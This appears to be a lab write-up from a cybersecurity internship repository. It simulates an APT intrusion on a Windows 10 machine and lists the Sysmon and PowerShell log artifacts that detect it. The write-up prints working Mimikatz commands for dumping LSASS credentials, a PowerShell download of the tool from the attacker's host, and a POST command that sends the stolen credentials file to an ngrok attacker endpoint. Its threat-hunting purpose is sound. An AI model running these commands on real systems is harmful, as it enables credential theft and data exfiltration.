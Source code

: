 # Scenario 5: Credential Dumping & HTTPS Exfiltration (APT Simulation)

## Simulated Activity:
Simulate real-world attacker behavior involving credential dumping from LSASS using Mimikatz, followed by data exfiltration over a secure HTTPS channel — a common stealth tactic in advanced persistent threat (APT) operations.

---

## Tools Used:
- **Windows 10** (Target machine)
- **Python3 HTTP Server** (initial attempt)
- **ngrok** (for HTTPS tunneling)
- **Mimikatz** (Credential extraction)
- **Wireshark** (Network packet capture)
- **Sysmon + PowerShell Logging** (Log detection)

---

## Simulation Steps:

## 1. Credential Dumping with Mimikatz:
### **File transferred** to target Windows machine using Python HTTP server:
```powershell
Invoke-WebRequest -Uri "http://<Kali-IP>:8000/mimikatz.exe" -OutFile "C:\temp\mimikatz.exe"
```

### Executed with Admin privileges:
```powershell
cd C:\temp

.\mimikatz.exe

log C:\temp\creds.txt

privilege::debug
sekurlsa::logonpasswords

exit
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_creds_dumped_using_mimikatz.png)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_creds_dumped_to_creds.txt.png)

- Output saved in C:\temp\creds.txt using Mimikatz’s built-in logging.

## 2. Simulating Encrypted Exfiltration:
### Ngrok tunnel established on Kali to simulate HTTPS attacker server:
```bash
ngrok http 443
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_creds_dump_and_https_exfiltration_simulated.png)

### Exfiltration Command from Windows:
```powershell
Invoke-WebRequest -Uri "https://<ngrok-address>" -Method POST -InFile "C:\temp\creds.txt"
```
- Response: 404 Not Found (✅ expected, since no backend receiver)
- ngrok console confirmed incoming HTTPS POST request from Windows.
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_creds.txt_sent_to_ngrok-free.app.png)

## Logs & Forensics Observed:
|Source|Artifact|
|------|--------|
|Sysmon|Event ID 1(Process Creation), event ID 3 (Network Connection) and Event ID 22(DNS Query)|
|Powershell|Command logs for file download and POST request|
|ngrok|POST request captured with timestamp|


mimikatz.exe File Created Sysmon log
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_mimikatz.exe_file_created_log.png)
Network connect to port 443 Sysmon log
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_network_connect_to_443_log.png)
DNS Query to ngrok Sysmon log Event ID 22
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_dns_query_to_ngrok-free.app.png)
Exfiltration command Powershell log
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_data_exfiltration_powershell_log.png)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint05_data_exfiltration_404error_powershell_log.png)

### Key Insight:
This task highlights how encrypted exfiltration over HTTPS can blend in with legitimate traffic, making it significantly harder to detect. Even though the file never reached a server, the act of exfiltration was successfully simulated and logged — which is the critical aspect in threat hunting.
